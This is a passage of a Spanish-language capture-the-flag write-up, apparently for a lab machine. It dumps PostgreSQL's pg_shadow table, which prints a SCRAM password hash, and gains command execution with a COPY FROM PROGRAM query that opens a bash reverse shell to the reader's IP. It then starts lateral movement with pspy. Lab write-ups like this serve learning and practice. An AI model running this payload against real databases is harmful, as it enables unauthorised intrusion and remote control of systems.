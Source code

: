 ```
``` 

Obtendremos todas las tablas, en este caso le indicamos con el SELECT que obtenga la columna llamada ```tablename``` de ```pg_tables``` la cual tiene todas las tablas de la base de datos ```moon_namesdb```, podemos observar dos tablas interesantes: ```pg_user_mapping``` y ```pg_shadow```, si mostramos todos los datos usando ```SELECT * FROM pg_shadow``` nos mostrara eso:

```json
"values":[
    [
        "postgres",
        "grafana_viewer"
    ],
    [
        "10",
        "16385"
    ],
    [
        null,
        "SCRAM-SHA-256$4096:K9IJE4h9f9+tr7u7AZL76w==$qdrtC1sThWDZGwnPwNctrEbEwc8rFpLWYFVTeLOy3ss=:oD4gG69X8qrSG4bXtQ62M83OkjeFDOYrypE3tUv0JOY="
    ],
]
```

Parace ser el hash de una contraseña, que no podemos crackear, y si mostramos los datos de ```pg_user_mapping``` no saldra nada, asi que es posible que debamos de hacer otra cosa, intentaremos realizar un RCE para mandarnos una reverse shell, guiandonos de [aqui](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md#postgresql-command-execution) usaremos este consulta para conseguir RCE:

```sql
CREATE TABLE cmd_exec(cmd_output text); COPY cmd_exec FROM PROGRAM 'bash -c \"bash -i >& /dev/tcp/<tu ip>/443 0>&1\"';
```
- Con ```CREATE TABLE cmd_exec(cmd_output text)``` le estamos diciendo que cree una tabla llamada ```cmd_exec``` en la cual tendra una columna llamada ```cmd_output``` de tipo ```text```, la cual tendra el resultado del comando ejecutado

- Despues con ```COPY cmd_exec FROM PROGRAM 'bash -c \"bash -i >& /dev/tcp/<tu ip>/443 0>&1\"'``` le estamos diciendo que copie datos a la tabla ```cmd_exec``` ademas de que con ```PROGRAM``` estamos haciendo el llamado de un programa externo el cual es ```bash``` y ejecutara la reverse shell

Y ya conseguimos una reverse shell

## Movimiento lateral de postgres a Juno

Empezaremos analizando los procesos que esten ejecutandose en la maquina, asi que ejecutare pspy y encontraremos que se esta ejecutando un script desde el usuario Juno

```bash
CMD: UID=1000  PID=21104  | /bin/bash /home/juno/shadow-simulation.sh
```

Ademas tambien veremos que esta copiando el archivo ```network-simulation.yml``` a ```/dev/shm```
